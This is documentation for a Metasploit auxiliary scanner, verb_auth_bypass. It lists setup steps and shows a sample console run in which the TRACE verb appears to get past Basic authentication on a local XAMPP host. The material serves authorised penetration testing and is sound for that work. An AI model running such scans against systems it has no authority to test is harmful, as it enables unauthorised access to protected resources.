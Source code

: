 ## Description

This module scans a server or range of servers and attempts to bypass authentication by using different HTTP verbs.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/verb_auth_bypass	```
2. Do: ```set PATH [auth page]```
3. Do: ```set RHOSTS [IP]```
4. Do: ```run```

We configure this module by setting the path to the page requiring authentication, set our RHOSTS value and let the scanner run.

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/http/verb_auth_bypass
msf auxiliary(verb_auth_bypass) > show options

Module options (auxiliary/scanner/http/verb_auth_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The path to test
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host

msf auxiliary(verb_auth_bypass) > set PATH /xampp/
PATH => /xampp/
msf auxiliary(verb_auth_bypass) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(verb_auth_bypass) > run

[*] 192.168.1.201 requires authentication: Basic realm="xampp user" [401]
[*] Testing verb HEAD resp code: [401]
[*] Testing verb TRACE resp code: [200]
[*] Possible authentication bypass with verb TRACE code 200
[*] Testing verb TRACK resp code: [401]
[*] Testing verb WMAP resp code: [401]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(verb_auth_bypass) >
```

By reading the returned server status codes, the module indicates there is a potential auth bypass by using the TRACE verb on our target.